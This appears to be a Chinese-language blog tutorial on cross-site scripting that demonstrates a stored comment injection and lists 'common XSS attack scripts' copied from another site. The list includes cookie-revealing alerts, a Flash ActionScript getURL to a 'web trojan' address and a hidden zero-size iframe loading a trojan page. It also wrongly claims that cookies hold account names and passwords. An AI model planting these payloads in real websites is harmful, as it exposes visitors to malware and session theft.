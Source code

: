可以显示如下的结果

![xss_first](../../images/2014/xss_test.jpg)

如有攻击者提交的Comment为类似如下的评论

    <stript type="text/javascript"> 
        console.log("FUCK U"); 
    </script>
    
则之后每次提交评论时，页面控制台都会输出 “FUCK U”



### XSS常用攻击脚本

直接复用网上资料[XSS常用攻击脚本](http://www.jb51.net/hack/39734.html){:target="_blank"}


1、这个应该都知道，常用于测试 是否存在跨站  
    
    <script>alert("test")</script>  

2、代码将会弹出壹个包含有浏览者cookie信息的对话框，如果用户已经通过帐号登陆网站，在显示的cookie信息中将会包含有用户的账户名和密码。 

    <script>window.alert(document.cookie);</script> 
     
3、 当用户浏览该 页时，将弹出壹个高爲200，宽爲200的网页窗口，在其中打开的页面是http://www.pete.cn/default.asp 

    <script>window.open('http://www.pete.cn /default.asp','newwindow','width=200,height=200');</script>,

4、跨站攻击的形式是多样的，不仅可以在网页中插入跨站脚本代码，而且可以在flash文件中插入跨站脚本代码，实现跨站攻击。
由于flash文件有较高 的安全性，用户通常对flash文件的警惕性不够，因此用flash文件进行跨站攻击的成功率很高。
如果将这个含有跨站脚本代码的flash文件插入到网 页中，例如制作成网页banner或者广告，那么中招的用户将更多。 
flash跨站是通过在flash文件中插入动作脚本来实现的，通过在flash文件“帧”的“动作”中插入跨站脚本代码来实现跨站攻击，其实现方法入下： 
首先运行flash文件制作工具flash8.exe，新建壹个空白的flash文档。然后选中其中的第壹帧，进入界面下方的“动作”编辑界面，在Action Script中插入我们的跨站脚本代码 

    getURL("http://网页木马地址", "_blank", "GET"); 
    loadMovieNum("http://www.pete.cn/test.swf", 0); 

5、这就是 传说中的框架 - - 膜拜吧 还有JS 也可以使用，比框架更隐蔽 

    <iframe src=http://www.***.com/muma.htm width=0 height=0>< iframe> 
